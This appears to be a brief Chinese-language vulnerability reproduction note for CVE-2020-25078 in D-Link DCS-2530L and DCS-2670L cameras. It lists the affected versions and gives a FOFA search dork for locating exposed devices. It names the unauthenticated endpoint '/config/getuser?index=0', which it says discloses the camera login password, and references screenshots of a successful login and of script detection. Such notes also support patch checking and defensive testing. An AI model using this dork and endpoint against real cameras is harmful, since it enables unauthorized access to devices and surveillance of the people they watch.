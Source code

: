 # 影响范围：
D-Link DCS-2530L <1.06.01 Hotfix
DCS-2670L<= 2.02
# CVE编号
CVE-2020-25078
# FOFa dork：
app="D_Link-DCS-2530L"  
# 漏洞复现：
登录页面：
![image](images/login.png)
通过访问漏洞接口可以获得摄像头登陆密码。  
漏洞接口：  
```
/config/getuser?index=0
```
![image](images/pass.png) 
成功登录：
![image](images/success.png) 
使用脚本进行检测：  
![image](images/script.png)



